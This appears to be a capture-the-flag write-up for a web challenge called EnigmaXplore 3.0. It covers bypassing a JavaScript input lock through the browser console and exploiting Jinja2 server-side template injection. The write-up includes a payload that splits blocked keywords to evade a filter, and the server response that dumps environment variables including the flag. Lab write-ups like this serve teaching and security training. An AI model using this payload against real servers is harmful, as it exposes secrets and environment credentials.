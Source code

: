 ```yaml
---
layout: writeup
parent: "EnigmaXplore 3.0"
tags: ["web", "ssti"]
---
```

<h1>{{ page.title | downcase }} {% for tag in page.tags %}<span class="category-tag">{{ tag }}</span>{% endfor %}</h1>

```
Whispers echo in hollow chambers, yet the gatekeeper steals your voice. To speak the hidden truth, you must first silence the thief in your own house. The language of walls awaits those who can rebuild what was broken— piece by piece, the modular secret reveals what sleeps in the server's shadow.
```
index.html:
```html
<!doctype html>
<html>
<head>
  <meta charset="utf-8">
  <title>Announce (Locked)</title>
  <style> 
    body{font-family:Arial,Helvetica,sans-serif;margin:2rem;} 
    .hint{color:#666}
    .error{color:red; font-weight:bold;}
    .success{color:green; font-weight:bold;}
  </style>
</head>
<body>
  <h2>Post an announcement</h2>
  <form method="POST" action="/submit">
    <input id="trick" name="message" placeholder="Click to type..." style="width:60%;padding:.4rem" autocomplete="off" />
    <button id="other" type="button">Focus sink</button>
    <button type="submit">Submit</button>
  </form>
  <p class="hint">Announce all you want all day long.</p>

<script>
(function(){
  var t = document.getElementById('trick');
  
  window.trickKeyHandler = function(e){
    if (t.dataset.locked === '1') {
      e.preventDefault();
      if (e.key && e.key.length === 1) {
        console.log("Typing locked. Use DevTools to enable input.");
      }
    }
  };
  
  window.trickFocus = function(e){
    e.target.blur();
    document.getElementById('other').focus();
    t.dataset.locked = '1';
    t.readOnly = true;
    try { t.addEventListener('keydown', window.trickKeyHandler); } catch(ex){}
    console.log("Focus stolen and input locked!");
  };
  
  function attach(){
    if (!t.dataset._attached) {
      t.addEventListener('focus', window.trickFocus);
      t.addEventListener('keydown', window.trickKeyHandler);
      t.dataset._attached = '1';
    }
  }
  attach();
  
  setInterval(function(){
    attach();
    t.dataset.locked = '1';
    t.readOnly = true;
  }, 700);
  
  window.addEventListener('focus', function(){
    attach();
    t.dataset.locked = '1';
    t.readOnly = true;
  });
})();
</script>
</body>
</html>
```

# Method

## Lockdown

The first challenge lies in bypassing the 'lockdown' restrictions on the form input. In order to get around the restrictions, we can simply use JavaScript within the console to directly modify the form's values and submit it:

```javascript
document.querySelector('[name="message"]').value = `your_value_here`;
document.forms[0].submit();
```

## SSTI

After testing some sample payloads to check how user input is being used, if we run `{% raw %}{{config}}{% endraw %}` in our message value we can see that the config information for Jinja2 is returned:
```
<Config {'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': None, 'SECRET_KEY_FALLBACKS': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'TRUSTED_HOSTS': None, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_PARTITIONED': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'MAX_FORM_MEMORY_SIZE': 500000, 'MAX_FORM_PARTS': 1000, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'PROVIDE_AUTOMATIC_OPTIONS': True}>
```

This tells us that the server is vulnerable to SSTI.

When we try a simple SSTI exploit that leaks all environment variables:

```
{% raw %}
{{ type.__init__['__globals__']['__builtins__']['__import__']('os')['environ'] }}
{% endraw %}
```

We get varying error messages from the server. This indicates that there is some sort of filter going on in the backend. After some trial and error, I found that using `__globals__`, `__builtins__` or `__import__` within the message replaces it with `REDACTED` exposing where this filtering is happening. By simply breaking up the strings, we can get past this filter and dump the environment variables, one of which is the flag.

### Payload
```
{% raw %}
{{ type.__init__['__glob'+'als__']['__built'+'ins__']['__imp'+'ort__']('os')['environ'] }}
{% endraw %}
```

### Response
```
environ({'PATH': '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', 'HOSTNAME': '6c0b8e3eaf5e', 'TERM': 'xterm', 'LANG': 'C.UTF-8', 'GPG_KEY': 'A035C8C19219BA821ECEA86B64E628F8D684696D', 'PYTHON_VERSION': '3.11.14', 'PYTHON_SHA256': '8d3ed8ec5c88c1c95f5e558612a725450d2452813ddad5e58fdb1a53b1209b78', 'FLASK_RUN_HOST': '0.0.0.0', 'FLASK_RUN_PORT': '5050', 'HOME': '/home/ctf', 'FLAG': 'EnXp{N01T53UQFTC34T3DAM5A47ANUK}', 'FLASK_ENV': 'production', 'WERKZEUG_SERVER_FD': '3'})
```
<br>
<br>
`EnXp{N01T53UQFTC34T3DAM5A47ANUK}`


